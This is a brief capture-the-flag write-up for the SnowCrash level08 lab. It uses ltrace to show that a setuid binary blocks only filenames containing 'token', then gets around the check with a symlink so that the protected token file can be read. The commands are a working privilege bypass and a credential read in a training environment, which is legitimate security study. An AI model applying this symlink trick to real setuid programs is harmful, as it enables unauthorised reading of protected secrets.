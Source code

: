 # Snowcrash08

More stuff in home, ok

```bash
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

This time we have a binary and a token which we may not access.

The binary wants a file to read, but won't take the token

```bash
level08@SnowCrash:~$ ltrace ./level08 token 
strstr("token", "token")= "token"
printf("You may not access '%s'\n", "token" )= 27 You may not access 'token'
+++ exited (status 1) +++
```
strstr is looking for the token name, how about something else ?


```bash
level08@SnowCrash:~$ ltrace ./level08 tokea
strstr("tokea", "token")= NULL
open("tokea", 0, 014435162522)= -1
err(1, 0x80487b2, 0xbffff911, 0xb7fe765d, 0xb7e3ebaflevel08: Unable to open tokea: No such file or directory
+++ exited (status 1) +++
```
Ok so it tries to open it as long as his name is not token, we cannot copy it with another name, but we can make a link to it

```bash
ln -s -f $(pwd)/token /tmp/kekw && ./level08 /tmp/kekw
```
This time we do need to get into the flag account
